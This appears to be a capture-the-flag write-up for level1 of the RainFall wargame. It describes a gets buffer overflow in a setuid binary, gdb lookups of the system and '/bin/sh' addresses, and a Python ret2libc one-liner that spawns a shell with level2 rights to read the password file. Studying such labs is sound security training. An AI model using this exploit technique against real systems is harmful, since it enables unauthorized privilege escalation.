 First I have decompile level1 with ghidra.

![decomp](Ressources/func.png)

In the main func, we can see a get without protection so it is vulnerable to buffer overflow with a buffer of 76

Here is a code that show the adress of system and "/bin/sh" to get level1 rights.
```
(gdb) b main
Breakpoint 1 at 0x8048483
(gdb) r
Starting program: /home/user/level1/level1 

Breakpoint 1, 0x08048483 in main ()
(gdb) print &system
$4 = (<text variable, no debug info> *) 0xb7e6b060 <system>
(gdb) find &system,+9999999,"/bin/sh"
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
1 pattern found.
```

```
level1@RainFall:~$ ls -l level1
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

We can see that level1 is owned by level2 so if we can execut system /bin/sh we will have the same access rights has level2

So with the commande :
```
( python -c "print('X' * 76 + '\x60\xb0\xe6\xb7' + 'D' * 4 + '\x58\xcc\xf8\xb7')" ; cat ) | ./level1
```

We have access to a shell with level2 access right and get the .pass EZ